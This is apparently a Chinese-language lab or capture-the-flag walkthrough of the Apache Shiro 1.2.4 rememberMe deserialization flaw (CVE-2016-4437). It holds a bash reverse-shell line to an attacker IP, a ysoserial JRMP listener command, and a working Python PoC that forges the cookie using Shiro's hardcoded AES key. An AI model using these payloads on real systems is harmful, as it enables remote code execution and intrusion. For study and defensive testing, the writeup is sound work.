


# Apache Shiro 1.2.4反序列化漏洞（CVE-2016-4437）

## 漏洞描述

Apache Shiro默认使用了CookieRememberMeManager，其处理cookie的流程是：得到rememberMe的cookie值 >  Base64解码–>AES解密–>反序列化。然而AES的密钥是硬编码的，就导致了攻击者可以构造恶意数据造成反序列化的RCE漏洞。

## writeup

访问靶机地址



攻击机监听4437端口


访问 http://www.jackson-t.ca/runtime-exec-payloads.html 将准备执行的命令进行加密

反弹shell指令

```
bash -i >& /dev/tcp/攻击机IP/4437 0>&1
```


运行指令（通过 ysoserial中的JRMP监听模块，监听 6666 端口并执行反弹shell命令，ysoserial自行寻找下载）

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 6666 CommonsCollections4 '加密的反弹shell指令'
```


利用POC伪造cookie内容

python shiro.py 攻击者IP:攻击者监听的java端口


POC
```
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-all.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
print "rememberMe={0}".format(payload.decode())
```

发送伪造的cookie

```
http 目标登入地址 'Cookie:上一步生产的cookie'
```


反弹shell获取flag

